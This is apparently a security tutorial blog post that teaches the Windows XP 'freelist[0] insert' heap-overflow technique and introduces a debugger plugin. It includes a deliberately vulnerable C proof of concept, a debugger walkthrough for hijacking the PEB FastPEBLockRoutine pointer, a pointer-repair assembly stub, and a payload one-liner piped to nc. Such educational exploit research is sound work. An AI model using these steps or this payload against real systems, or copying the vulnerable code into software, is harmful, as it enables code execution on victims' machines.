



/*
exploiting freelist[0] (insert)
technique by Brett Moore
poc example by Steven Seeley
*/
#include <stdio.h>
#include <windows.h>
int main(int argc,char *argv[])
{
char *a,*b,*c,*x,*y,*z;
long *hHeap;
hHeap = HeapCreate(0x00040000,0,0);
a = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,1200);
b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,1024);
c = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,2048);
// freelist[0] has 'c' chunk
HeapFree(hHeap, 0, c);
// overwrite b so that we spill into c
// set c's blink to lookaside[3]
printf("(+) Chunk b: 0x%08x\n",b);
printf("(+) Fill chunk b (using 1024 bytes), overflowing chunk c:\n");
// overflow b
// using 1024 A's + BBBBCCCCDDDDEEEE (E=blink) (D=Flink)
// overflow with blink set to 0x00480718 (lookaside[3])
gets(b);
// free 'a' so that freelist[0] looks like this:
// freelist[0]:
// chunk b
// chunk a
// chunk c
// the 'insert'
HeapFree(hHeap, 0, a);
// now lookaside[3] should be
// lookaside[3]:
// chunk b
// chunk a
// chunk ? (fake chunk created from the overwrite)
// flink we control from overwrite
// pop off the lookaside until we reach
// our fake chunk
x = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
y = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
z = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
// write shellcode at controlled freelist flink (lookaside fake chunk)
gets(z);
exit(0);
}
Heap Overflows For Humans 102.5
Hi folks. Sometime ago, I discussed an old, but important technique for exploiting application specific heap overflows under windows XP SP3. Today, I am going to discuss another important technique and give a small introduction to my immunity debugger plug-in tool called !heaper!
First off, I would like to thank some serious researchers for the previous research done in this area as one can only appreciate the technical complexities/difficulties in understanding these concepts, without these people, these articles wouldn't exist.
So a BIG thank you to Brett Moore, Nicolas Waisman and Chris Valasek. Your research is beyond exceptional.
Ok lets begin?
In December 2005 Brett Moore released some very interesting research 'Exploiting Freelist[0] On XP SP2'. It details two very useful techniques independently discovered by Mr Moore that could be used to attack Freelist[0]. We are going to cover one particular technique known as the 'freelist[0] insert' attack simply due to its practicality.
You will need to setup a machine with:
- Windows XP with just SP2/SP3 installed
- Immunity Debugger
- pyparser
- graphviz
- A copy of my immunity debugger plugin heaper.py
- A c/c++ compiler (Dev C++, lcc-32, MS visual C++ 6.0 (if you can still get it)).
- A scripting language of ease (I use python, maybe you can
use perl).
- A brain (and/or persistence).
- Some knowledge of Assembly, C and knowledge on how to dig through a debugger using HideDbg (plugin) for Olly or !hidedebug under immunity debugger.
Freelist[0] Insert Attack
The concept to this attack works by overwriting the blink in a freelist[0] chunk and when inserting a chunk before the overwritten chunk, the blink is not checked before the inserted flink/blink pointers are updated. Safe unlinking applies only to the chunk being manipulated and its relevant blink/flink (no validation on chunks being relinked).
To mitigate this issue, under windows 7 using dedicated Freelists, Microsoft implemented a check similar to this small snippet of pseudo code:
if (chunk[blink] -> PrevChunk && PrevChunk[flink] -> chunk)
proceed()
If chunks before and after have their backward and forward links validated, then it would of course mitigate the issue and not allow an attacker to set an arbitrary pointer or set an arbitrary value pointed to by an uncontrolled address. Below is the crude code example we will work with:
Whilst this code, of course, does not represent any kind of real world example, once the concept is grasped, the technique may be applied to an application specific situation.
Compile the code or grab the per-compiled version [b33f: Executable not available] if you open it up in a debugger this is what you should see:

Now scroll down until you see the main API calls used in the application HeapCreate, HeapAlloc, HeapFree and set breakpoints on second HeapFree and the following HeapAllocs after that.
Now we have to hide the fact that we are running this under the debugger so we use '!hidedebug all_debug' to patch all API's.
Ok, run the application and you should get requested to insert some junk into the cmd window. Because this is STDIN, we cannot simply insert binary data into the application. To help illustrate further, we will insert ASCII data and modify it in memory so that a more complete understanding is gained.
If the astute reader is paying attention, you will have noticed that the chunk we are writing into is 1024 bytes in length. Any number of bytes past this point will overflow the buffer, therefore precise control is needed. If we overflow with 8 bytes (for the header of the next chunk) and another 8 bytes (for flink/blink) then we can use this to take complete control. Lets generate our ASCII quickly:
Ok so we paste this into the application and hit the first breakpoint (Call on HeapFree):
Now lets do some analysis and find out what is happening. First, lets look at the freelist and visually inspect its layout by using !heaper ab -g.

We can also get this information visually using '!heaper ab 490000 -g'. You can find the graph located in 'C:\Program Files\Immunity Inc\Immunity Debugger\' (the default filename in this case would be 'freelist_graph.png').
Right, so we can pretty clearly see that blink/flink are overwritten with our controlled data. The idea now is that we have to modify the blink '0x44444444' to the lookaside[3] entry address. At this stage, the lookaside doesn't exist as no entries have been freed to the lookaside yet but we are going to fake some entries. Lets change the value:
As we can see, the freelist[0] entry now reflects this change:
Ok so this is the important part, if we step over the HeapFree() call we can see a big change. The lookaside[3] is populated with 3 entries and our controlled flink becomes the flink of a fake chunk on the lookaside. Use '!heaper af [heap]' or '!heaper analysefrontend [heap]' to return the following output.
Once again, visually using '!heaper af 490000 -g'. The default filename here would be 'lal_graph.png', you can chose a custom name using -f
If we continue execution until the next call to HeapAlloc() we can see that the flink is getting returned from each entry in the lookaside list.
Of course 0x43434343 is not a valid chunk and we must update the flink so that it can be read at and written too. In this case, we are going to use the PEB FastPEBLockRoutine pointer as described in Heap Overflows for Humans 102 to accomplish this. The PEB is of course randomized now, however I am simply demonstrating how the technique works since we need a valid pointer to write too. You can use '!heaper dp -m' to dump the PEB's management structure and find the offset to FastPEBLockRoutine (although it is always 0x20 of the PEB).
Next, lets patch the 0x43434343 located at the lookaside[3] entry:
Simply let the execution continue and the chunk can be read and written to. Lets recap:
We now have created the situation perfectly to write 'data/shellcode' to any 4 bytes in memory.
A call from RtlAcquirePebLock+0x28 to FastPEBLockRoutine() is attempted. Seeing as RtlAcquirePebLock() is using the current PEB to find
the pointer and call it, it calls our shellcode instead.See below:
At this point, shellcode execution is quite straight forward, a pivot into executing code from EAX would be needed and the stage 1 shellcode should be a stub that repairs of the pointer that we just overwrote. Below is a small stub that will do this.
.386 .model flat, stdcall option casemap:none .code start: mov eax, 7c901deh ; ntdll.RtlEnterCriticalSection mov ecx, 7ffdf01ch ; offset in the PEB 0x1f (yours will be different) add ecx, 4h mov dword ptr ds:[ecx],eax end start
So essentially this translates to something like this:
00401000 > $ B8 DE55F777 MOV EAX,ntdll.RtlEnterCriticalSection 00401005 . B9 1CF0FD7F MOV ECX,7FFDF01C 0040100A . 83C1 04 ADD ECX,4 0040100D . 8901 MOV DWORD PTR DS:[ECX],EAX
This way, the pointer will be restored and shellcode will not keep executing. Under windows XP sp3, this of course should be done dynamically if the PEB base address was brute forced. Ill let the astute reader fix the above assembly stub to dynamically located the PEB and patch the offset 0x20. You could use fs:[0x30].
A re-cap of data we would actually send the next time we want to exploit the application in one shot (assuming we are sending the data over a socket connection):
python -c "\x41" * 1024 + "\x42" * 8 + "\x20\xf0\xfd\x7f" + "\x18\x07\x49" | nc -v <target> <ip>
The NULL byte would of course be appended to the end of the string.
Limitations and Requirements:
You need to know the overflowed heap base address. Not as easy as one might think, however a information leak will help a lot with this.
You need to be able to predetermine the PEB base address or at least use another function pointer that you can overwrite that will get called. This
will be explained further soon.
You need to have controlled allocation sizes.
You need to be able to cause the application to free a chunk that is smaller than the overwritten chunk yet bigger than the chunk we filled. This may
happen without any determinism, however controlling allocation sizes and controlling when a chunk is freed is a sure way of making progress.
Heaper
During my time in attempting to understand the techniques used in heap exploitation, I often needed to visualize aspects of memory and so I primarily used Immunity Debugger (windbg's !heap is insane though). However I was unable to find tools within immunity debugger that analyzed and determined the exploitability of the heap. Given that Immunity Debugger was an 'exploit' focused debugger, I decided to get to work on an immunity debugger plugin that helps to not only visualize heap structures, but also to determine the exploitability by using a number of heuristics.
Currently, the plugin does not do any heuristics check to determine the exploitability of a given heap overflow, however it will be integrated in the near future. Currently the tool checks for simple write4 flink/blink overwrites and will detect if the size field has been overwritten in the chunks header. However it is likely that depending on how the heap overflow is triggered, that a valid exploitable path will be given to the user. Windows 7 will be supported in the coming months as I do more analysis on its exploitability and conditional circumstances.
Ensure that you have pydot, pyparser and graphviz installed and save the code into Immunity's pycommands directory 'C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands\' you can bring up the help functionality by typing !heaper.

I mentioned previously that the task of finding function pointers to overwrite is often difficult. On top of that, we need to make sure the pointer we chose will get triggered after our overflow. Let !heaper's features help solve this problem.
Using !heaper you can dump all function pointers in the .data section by simply using '!heaper dumpfunctionpointers' or '!heaper dfp'.
To patch a single function pointer with the default value 0x41414141 use '!heaper dfp -p <function pointer>' or patch all of them using, '!heaper dfp -p all'.
We can also restore the function pointers by using -r all or <function pointer>.
Restoring the patched example above:
So the idea here is to patch all the function pointers and let the application run (simulating a write4 condition) and wait for a look up and call to one of them. If an access violation is triggered, you can find the pointer address on the stack.
Many other functions exist so I invite the reader to investigate and explore the possibilities of the tool; and provide me with some feedback and ideas of what you would like to see. Some suggestions I recieved include:
Provide some hooking functionality for certain heap calls VirtuallAlloc, HeapAlloc, HeapFree, HeapCreate etc and display the arguments (if
possible display the return value)
Provide some stats regarding heap sprays, such as number of blocks sprayed, size of each block, offset into the block that the spray
starts etc.
Provide Windows 7 functionality for the LFH and ensure graphing functionality will work.
Create and ensure the heuristics to determine exploitability are highly accurate. Heuristics for the following 4 attacks to begin with:
bitmap flipping, freelist[0] insert, freelist[0] search and overwriting a chunk of the lookasideAs you can see there is still much to be done, but I hope this gets some people off the ground for heap exploitation.